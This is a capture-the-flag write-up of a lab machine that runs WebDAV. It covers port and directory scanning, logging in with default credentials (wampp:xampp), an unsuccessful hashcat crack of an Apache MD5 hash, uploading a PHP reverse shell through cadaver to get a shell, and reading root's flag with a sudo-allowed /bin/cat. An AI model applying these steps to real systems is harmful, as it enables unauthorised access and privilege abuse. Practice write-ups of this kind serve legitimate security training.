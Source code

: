 ## Nmap

```
─[glack@parrot]─[~/Desktop/THM]
└──╼ $nmap -sV -sT -A 10.10.222.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-02 19:21 IST
Nmap scan report for 10.10.222.224
Host is up (0.13s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.09 seconds
```

## HTTP

```
─[glack@parrot]─[~/Desktop/THM]
└──╼ $feroxbuster -u http://10.10.222.224/ -w /usr/share/wordlists/small.txt -n -x html,php
```

found login at

```
401       14l       54w      460c http://10.10.195.171/webdav
```


Used write up and found 


A basic search for `webdav default credentials` will lead us to [this page](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and give us the default credentials: `wampp:xampp`.


There is a file password.dav with the contents

```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```


https://hashcat.net/wiki/doku.php?id=example_hashes

From here i found out this is a 

|   |   |
|---|---|
|1600|Apache $apr1$ MD5, md5apr1, MD5 (APR) 2|

```bash
┌─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $hashcat -a 0 -m 1600 forjohn.txt /usr/share/wordlists/rockyou.txt
```

tried this command but was unable to find the desired hash in rockyou wordlist

Upon reading a writeup i found out that a `cadaver` tool is required to interact with a webdav directory listing

Webdav info

![wiki protocol](https://kartibok.github.io/Capture-the-Flag/images/dav_webdav_protocol.png)  


![cadaver](https://kartibok.github.io/Capture-the-Flag/images/dav_cadaver.png)


## Cadaver

```
dav:!> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye

```

cadaver provide the above list of commands/options to interact with a webdav server.

Upon rechecking the default creds url, i saw that the cadaver command can also be used like this to interact with a specific web server

```
─[✗]─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $sudo apt install cadaver
```

```
─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $cadaver http://10.10.85.241/webdav
```

```
Authentication required for webdav on server `10.10.85.241':
Username: wampp
Password: 

```


Upon checking the available options we understand that we are able to upload onto the server using put command

```
dav:/webdav/> put php-reverse-shell.php 
```

I uplaoded my php reverse shell (changed the ip in the reverse shell file)

started a netcat listener and triggered the php from the browser and i got a shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and the user flag in the 
`merlin` directory

```
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a

```

## Priv Esc

Upon checking the standard methods for priv esc, we observer that the `www-data` user is able to run the `/bin/cat` command as super user

```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

```

Using this we are easily able to read the root  files and folder/flag without the root shell

```
$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5

```

